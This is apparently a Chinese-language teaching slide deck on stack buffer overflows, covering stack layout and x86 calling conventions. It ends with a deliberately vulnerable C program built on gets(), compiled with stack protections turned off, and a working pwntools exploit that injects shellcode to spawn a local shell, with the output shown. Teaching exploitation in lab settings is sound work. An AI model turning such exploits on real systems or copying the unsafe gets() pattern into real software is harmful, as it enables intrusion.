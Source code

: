 ```yaml
---
presentation:
  width: 1600
  height: 900
  slideNumber: 'c/t'
  showSlideNumber: "all"
  center: true
  enableSpeakerNotes: true
  theme: none.css
---
```


<!-- slide data-notes="
" -->
## 缓冲区溢出漏洞原理
### 什么是缓冲区
缓冲区是程序在执行过程中用于存放数据的地方，它通常是内存上的一段连续的地址，由程序或系统分配。
### 如何发生溢出
当存放进去的数据长度超过缓冲区本身限定的长度时，就会产生缓冲区溢出。
### 漏洞的危害
一般的缓冲区溢出，会被系统检测到错而中断退出。但一个精心构造的溢出，系统不仅不会检测到错误，还可以使攻击者获得被攻击主机的权限，实现任意指令执行。

<!-- slide data-notes="根据溢出发生的位置不同来分类，缓冲区溢出一般可以分为栈溢出和堆溢出两类。
" -->

### 缓冲区溢出类别
- 栈溢出
- 堆溢出
### 缓冲区溢出的基本条件
- 程序向用户请求输入，并向缓冲区写入数据。
- 向缓冲区写入数据时，数据的长度没有很好的限制。
<!-- slide data-notes="" -->
### 利用原理
控制指令寄存器，劫持程序执行流。
对于栈溢出，一般是通过覆盖栈上存储的函数返回地址，从而控制eip（对于64位则是rip），达到控制程序执行流程的目的。
堆溢出与之类似，但是堆上并没有存储函数返回地址的地方，所以堆溢出相对于栈溢出更为复杂和难以利用.
### 最终目的
getshell
shell通常指的是系统的命令行解释器，当攻击者得到shell，可以使用shell运行各种指令，实现入侵.
<!-- slide data-notes="
寻找溢出点：寻找危险函数，定位溢出长度。
构造溢出: 确定溢出内容，获取相关地址。
编写脚本进行攻击：编写代码，与攻击对象交互并实施攻击。" -->
### 缓冲区溢出过程
- 寻找溢出点
- 构造溢出
- 编写程序进行攻击
<!-- slide class="middle" data-notes="栈是一种先进后出的数据结构，一般有入栈（push）和出栈（pop）两种操作。" -->
### 栈
数据结构，先进后出
![](stack.png)
### 函数调用栈
程序被执行时会创建进程，进程会创建一个栈来保存局部变量和函数调用信息，需要注意的是在程序的栈空间是由高地址向低地址增长的。
<!-- slide data-notes="" -->
#### tips：为什么栈会反向增长
![](stack_why_re.png)
显然地，我们的习惯上比较接受的是从低地址向高地址增长的数据。
栈的反向增长令人困惑，但回溯历史便可以发现原因。早年计算内存空间很小，计算机需要同时在内存上维护栈和堆两个数据结构时，因为不好估计栈和堆的大小，最省事的方式就是把两个数据结构放在内存的两端，同时向中间增长，而栈一般就被放在了高地址，因而栈从高地址向低地址增长。有点像学生拿一个笔记本记两门课的笔记，一课从第一页开始记，另一课从最后一页开始记。
<!-- slide data-notes="X86：一般是将参数压栈进行传参。
传递的顺序由程序遵守的调用约定来决定，一般为从右到左。
X64：前几个参数由寄存器传递，其余由压栈传递。操作系统不同，传递参数的寄存器也不同。
Windows：RCX，RDX，R8，R9
*NIX：RDI，RSI，RDX，RCX，R8，R9
" -->
### 函数调用时发生了什么（x86）
1.  传递参数
2.	call 函数地址（push eip，jmp 被调函数地址）
3.	ebp入栈，当前esp复制到ebp，esp减去一个数值，形成该函数的栈空间
4.	初始化局部变量（自动变量）
5.	运行函数指令
6.	返回值传递
7.	pop ebp 
8.	ret（pop eip）
这里没有提到平衡栈帧的操作，实际上根据调用约定的不同，这个操作会在调用者或被调用者两个地方进行。

<!-- slide data-notes="" -->
### 栈上的数据
eip存储的是下一条要执行的指令的地址，所以若eip的值被修改为我们期望的地址，函数运行到ret时，程序将会跳到修改后的地址运行指令。根据上面来看，在进入函数时，通常栈上的数据是这样的。
可以看出，esp永远指向栈顶的位置，而ebp则永远指向当前函数空间的栈底。
![](funcation_stack.jpg)
<!-- slide data-notes="栈上存储函数返回地址在局部变量的相对高地址，若在输入局部变量时发生溢出，多出的数据会向高地址覆盖，最先覆盖的就是与之相邻的高地址局部变量，接下来时ebp和函数返回地址。这里的buffer的长度就是输入数据与函数返回地址之间的距离，这段数据的长度需要人为控制，保证ret数据覆盖到函数返回地址上。shellcode是用来发送到服务器利用特定漏洞的代码，它能在极小的空间内完成一些基本而重要的工作。Shellcode如何编写，由环境和目的决定，比如通过gets溢出时，shellcode要求不能出现’\x00’。" -->
### 简单的栈溢出
buffer + ret + shellcode
- buffer: 被调函数缓冲区空间
- ret: 函数返回地址
- shellcode: 执行后能够弹出shell的一段代码
<!-- slide data-notes="" -->
危险代码示例
```c
#include <stdio.h>  
#include <string.h>  
#include <stdlib.h>
int main(int argc, char **argv) 
{        
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    pwnthis();
    return 0;  
}  

int pwnthis()
{
    char s[10];
    printf("%x\n",s);
    gets(s);
    return 0;
}
```
<!-- slide data-notes="可以看到，代码中包含危险函数gets（），并且为了方便，我们打印了s[]的起始地址。将本代码保存到.c后缀的文本文件，并且用如下gcc指令来编译它。" -->
编译
```shell
gcc -m32 -fno-stack-protector -z execstack stack_overflow.c -o stack_overflow
```
-m32是指生成32位程序
-fno-stack-protector是指关闭canary保护（后面会讲到）
-z execstack是指关闭栈不可执行保护
Stack_overflow.c是源代码
-o：指定生成的输出文件
Stack_overflow就是生成的二进制文件
<!-- slide data-notes="" -->
编译成功后，用ida打开生成的二进制文件，定位到pwnthis（）函数，按f5生成伪代码，可以看到有：
```c
int pwnthis()
{
  char s; // [sp+6h] [bp-12h]@1

  printf("%x\n", &s);
  gets(&s);
  return 0;
}
```
其中，s的地址距ebp的长度为0x12。
<!-- slide data-notes="" -->
转到stack窗口查看，也有：
```sh
-00000012 s               db ?
-00000011                 db ? ; undefined
-00000010                 db ? ; undefined
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009                 db ? ; undefined
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```
<!-- slide data-notes="" -->
- 溢出点：0x12+4
- shellcode地址：s+0x12+4+4
攻击脚本：
```python
from pwn import *
#context.log_level = 'debug' 
p = process("./stack_overflow")
sc = asm(shellcraft.i386.sh())    
temp = int(p.recvline(),16)               
sc_addr = p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc  
p.sendline(payload)
p.interactive()
```
<!-- slide data-notes="" -->
- `process（）`建立脚本和二进制程序的连接
- `shellcraft.i386.sh（）`用以生成i386下的shellcode
- `asm（）`将shellcode由汇编指令转换成机器码。
- Temp接收s[]的地址
- `sendline（）`将payload输入到二进程程序中
- `interactive（）`将控制交还给用户，以便于我们操作shell。
<!-- slide data-notes="" -->
效果如下：
```sh
lometsj@ubuntu:~/pwntest$ python p.py
[+] Starting local process './stack_overflow': pid 65319
[*] Switching to interactive mode
$ ls
core  p.py  stack_overflow  stack_overflow.c
$ cat p.py
from pwn import *
#context.log_level = 'debug' 
p = process("./stack_overflow")
sc = asm(shellcraft.i386.sh())    
temp = int(p.recvline(),16)               
sc_addr = p32(temp + 0x12 + 4 + 4)    
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc  
p.sendline(payload)
p.interactive()
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_overflow' stopped with exit code 0 (pid 65319)
[*] Got EOF while sending in interactive
```

<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
